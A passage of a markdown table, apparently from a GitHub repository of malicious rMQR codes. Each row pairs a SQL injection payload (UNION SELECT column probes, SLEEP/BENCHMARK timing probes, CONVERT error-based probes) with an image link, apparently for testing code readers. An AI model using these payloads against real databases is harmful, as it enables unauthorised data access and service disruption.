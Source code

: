 | ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/415.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/416.png) |
| ` UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/417.png) |
| `UNION SELECT @@VERSION,SLEEP(5),3` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/418.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/420.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/421.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/422.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/423.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/424.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),4#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/427.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/428.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/429.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/430.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/431.png) |
| `UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/432.png) |
| ` UNION ALL SELECT USER()-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/433.png) |
| ` UNION ALL SELECT SLEEP(5)-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/434.png) |
| ` UNION ALL SELECT USER(),SLEEP(5)-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/435.png) |
| ` UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/436.png) |
| ` UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/437.png) |
| ` UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/438.png) |
| ` UNION ALL SELECT NULL-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/439.png) |
| ` AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/440.png) |
| ` AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/441.png) |
| ` AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/442.png) |
| ` AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/443.png) |
| `UNION ALL SELECT NULL#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/444.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/445.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/446.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/447.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/448.png) |
| ` UNION ALL SELECT NULL ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/449.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/450.png) |
| `AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/451.png) |